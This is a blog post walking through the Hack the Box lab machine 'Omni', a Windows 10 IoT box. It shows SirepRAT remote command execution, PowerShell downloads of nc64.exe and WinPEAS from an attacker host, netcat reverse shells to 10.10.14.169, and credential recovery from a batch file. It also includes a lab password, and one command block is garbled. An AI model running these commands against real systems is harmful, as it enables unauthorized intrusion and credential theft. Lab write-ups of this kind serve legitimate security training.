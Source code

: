 +++
author = "Nick"
categories = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
date = 2021-01-09T15:08:51Z
description = ""
draft = false
thumbnail = "/images/2020/10/info-1.png"
slug = "hack-the-box-omni"
summary = "Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!"
tags = ["hack the box", "easy", "windows 10", "iot", "reverse shell", "Powershell", "sireprat"]
title = "Hack the Box - Omni"

+++


Welcome back everyone. Today we are doing the Hack the Box machine - Omni. This machine is different than most other machines. This is an IoT device! I'm excited to jump into this puzzle, let's go!

As usual, `nmap` it: `nmap -sC -sV -p- -oA allscan 10.10.10.204`

Here are our results:
```
Nmap scan report for 10.10.10.204
Host is up (0.065s latency).
Not shown: 65529 filtered ports
PORT      STATE SERVICE  VERSION
135/tcp   open  msrpc    Microsoft Windows RPC
5985/tcp  open  upnp     Microsoft IIS httpd
8080/tcp  open  upnp     Microsoft IIS httpd
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Windows Device Portal
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Site doesn't have a title.
29817/tcp open  unknown
29819/tcp open  arcserve ARCserve Discovery
29820/tcp open  unknown
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port29820-TCP:V=7.91%I=7%D=10/27%Time=5F98741B%P=x86_64-pc-linux-gnu%r(
SF:NULL,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(GenericLines,10,
SF:"\*LY\xa5\xfb`\x04G\xa9m\x1c\xc9}\xc8O\x12")%r(Help,10,"\*LY\xa5\xfb`\x
SF:04G\xa9m\x1c\xc9}\xc8O\x12")%r(JavaRMI,10,"\*LY\xa5\xfb`\x04G\xa9m\x1c\
SF:xc9}\xc8O\x12");
Service Info: Host: PING; OS: Windows; CPE: cpe:/o:microsoft:windows

```

We have some interesting ports. We see `IIS`, we have some kind of ARCserve service running as well. When we browse to port 8080 we get the auth prompt. The [default credentials](https://learn.adafruit.com/getting-started-with-windows-iot-on-raspberry-pi/prepare-raspberry-pi) are a no go. However, googling around does lead us to a tool that can break the box right open - [SirepRAT](https://github.com/SafeBreach-Labs/SirepRAT).

Now we could just rip the SAM from the machine and call it a day, but I don't think that's the intended method here ;). First we'll `git clone` the repo. The following command can give us some info on where to start looking for our flags.

Command:
```
python SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/C cd C:/ \&& dir /b/s *.txt" --v
```

This will tell us where our flags are located, thus giving us an idea of our targets and some user account info.

![](/images/2020/10/image-31.png)

Now we know some basic info and what we're after. How do we obtain it? We have the ability to upload files to the system, in this case we can upload `nc.exe` and get a shell back to us. Now there are a few things to remember in this case. We need a place to put it where we have access, luckily we [know those](https://www.ired.team/offensive-security-experiments/offensive-security-cheetsheets#applocker-writable-windows-directories). We also need to ensure we format our command correctly and have a `SimpleHTTPServer` running on port 80.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c powershell Invoke-Webrequest -outfile C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe -uri 10.10.14.169/nc64.exe" --v
```

![](/images/2020/11/image.png)

We see that our `nc64.exe` file was downloaded to the location we specified. now we simply need to execute the application to shell back to us. First we'll start up out `netcat` listener.

Command:
`nc -lvnp 6666`

Next we'll execute the command to connect back to us.

Command:
```
python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\> python2 SirepRAT.py 10.10.10.204 LaunchCommandWithOutput --return_output --cmd "C:\Windows\System32\cmd.exe" --args "/c C:\\Windows\\System32\\spool\\drivers\\color\\nc64.exe 10.10.14.169 6666 -e powershell.exe" --v
```

![](/images/2020/11/image-1.png)

We get our shell back instantly. Now we'll download an enumeration script and see what we can find. In this case we downloaded `WinPEAS`.

Command:
`invoke-webrequest -outfile 'C:\Windows\system32\spool\drivers\color\wp.bat' -uri 10.10.14.169/winPEAS.bat`

Running this files doesn't really help us much though. It's missing some components that are not included in the IoT Windows 10 version. Looks like we'll enumerate by hand. The first thing I did was search for `.bat` and `.txt` files.

Command:
`get-childitem -Path C:\ -Include *.bat* -recurse -erroraction Silentlycontinue`

Nothing too useful there. We'll repeat the steps this time, with hidden flag enabled as well as a time filter. We essentially want items that have been modified after the creation of the box. This way we can eliminate potential junk files from an image.

Command:
`get-childitem -Path C:\ -include *.bat*,*.txt* -recurse -erroraction silentlycontinue -hidden| ? {$_.lastwritetime -gt '8/20/20'}`

This finds an interesting file - `r.bat` - in an interesting location.

![](/images/2020/11/image-2.png)

When we look in the file, we see some credentials!

![](/images/2020/11/image-3.png)

Now with some credentials, we can try to access that page being hosted on `8080`. Sure enough, we get in!

![](/images/2020/11/image-4.png)

Now poking around this system, we see there is a function to run commands. Well great but it's possible that we are going to only run our command as our current user. Now, we can try to login to this portal as the administrator credentials that we just found. Sure enough, they work! Now, we can run commands as administrator! Let's create another shell back, this time with admin priv's.

Command:
`C:\Windows\System32\spool\drivers\color\nc64.exe 10.10.14.169 7777 -e powershell.exe`

We also want to ensure that we have our listener running.

Command:
`nc -lvnp 7777`

![](/images/2020/11/image-5.png)

Sure enough, we catch our shell back!

![](/images/2020/11/image-6.png)

With admin at our disposal, we check the `root.txt` file. Looks like it's a XML file that needs to be run through powershell to get the value. Fun. We can quickly get our value by using `import-clixml`, you can read up on that [here](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/import-clixml?view=powershell-7).

Commands:
`$cred = import-clixml -Path C:\Data\Users\Administrator\root.txt`
`$cred.GetNetworkCredential().Password`

I suppose you could have done this first when you get access as `app`, but when I realized you could run commands as app, I jumped right to `admin`. You need to log into the app portal as `app` with `mesh5143` as the password, and catch a shell there as well.



